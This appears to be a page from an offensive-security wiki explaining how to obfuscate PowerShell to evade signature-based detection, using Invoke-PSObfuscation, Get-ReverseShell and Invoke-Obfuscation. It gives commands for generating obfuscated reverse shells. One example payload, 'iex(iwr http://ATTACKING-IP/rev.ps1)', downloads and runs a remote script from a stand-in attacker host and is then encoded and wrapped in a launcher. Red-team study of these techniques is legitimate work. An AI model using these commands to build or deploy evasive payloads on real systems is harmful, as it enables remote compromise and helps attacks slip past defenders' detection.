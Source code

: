 # PowerShell Obfuscation

## Theory

Following techniques aiming to evade detection based on signatures by obfuscating PowerShell scripts and commands.

## Practice

### Invoke-PsObfuscation

{% tabs %}
{% tab title="Tool" %}
[invoke-psobfuscation](https://github.com/gh0x0st/invoke-psobfuscation) is a powerfull powershell obfuscating tool.&#x20;

{% hint style="success" %}
We may use invoke-psobfuscation using `pwsh`on a unix-like host
{% endhint %}

We can import the tool as follows.

```powershell
Import-Module ./Invoke-PSObfuscation.ps1
```

To obfuscate a powershell file, use the following cmdlets.

```powershell
# Using all switches
Invoke-PSObfuscation -Path in.ps1 -PipelineVariables -Pipes -Cmdlets -Methods -Integers -Aliases -Comments -NamespaceClasses -Variables -Strings -OutFile out.ps1
```
{% endtab %}
{% endtabs %}

### Get-ReverseShell

{% tabs %}
{% tab title="Tool" %}
[Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell) is a tool with the sole purpose of producing obfuscated reverse shells for PowerShell.

{% hint style="success" %}
We may use Get-ReverseShell using `pwsh`on a unix-like host
{% endhint %}

We can import the tool as follows.

```powershell
Import-Module ./get-reverseshell.ps1
```

To generate a revers shell, use the following cmdlets

```powershell
# To stdout
Get-ReverseShell -Ip $IP -Port $PORT

# To file
Get-ReverseShell -Ip $IP -Port $PORT -OutFile /path/to/rev.ps1
```
{% endtab %}
{% endtabs %}

### Invoke-Obfuscation

{% tabs %}
{% tab title="Tool" %}
[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) is a PowerShell v2.0+ compatible PowerShell command and script obfuscator. Even though it is quite old, it is still relevant for bypassing static detections.

{% hint style="success" %}
We may use Invoke-Obfuscation using `pwsh`on a unix-like host
{% endhint %}

We can import and start the tool as follows.

```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```

Here are some usage examples:

```powershell
# Set a payload from a ScriptBlock
Invoke-Obfuscation> set ScriptBlock iex(iwr http://ATTACKING-IP/rev.ps1 -UseBasicParsing)

# Set a payload from file
Invoke-Obfuscation> set ScriptPath /path/to/script.ps1

# Exemple: Obfuscate entire command as a String
Invoke-Obfuscation> STRING
Invoke-Obfuscation> 1

# You may chains obfuscation methods
# Exemple: Obfuscate entire command via HEX encoding 
Invoke-Obfuscation> MAIN
Invoke-Obfuscation> ENCODING
Invoke-Obfuscation> 2

# Choose a luancher
# Example: PowerShell luancher
Invoke-Obfuscation> MAIN
Invoke-Obfuscation> LAUNCHER
Invoke-Obfuscation> PS
Invoke-Obfuscation> 7

# Save payload to file
Invoke-Obfuscation> OUT
Enter path for output file (or leave blank for default): obf.ps1
```
{% endtab %}
{% endtabs %}


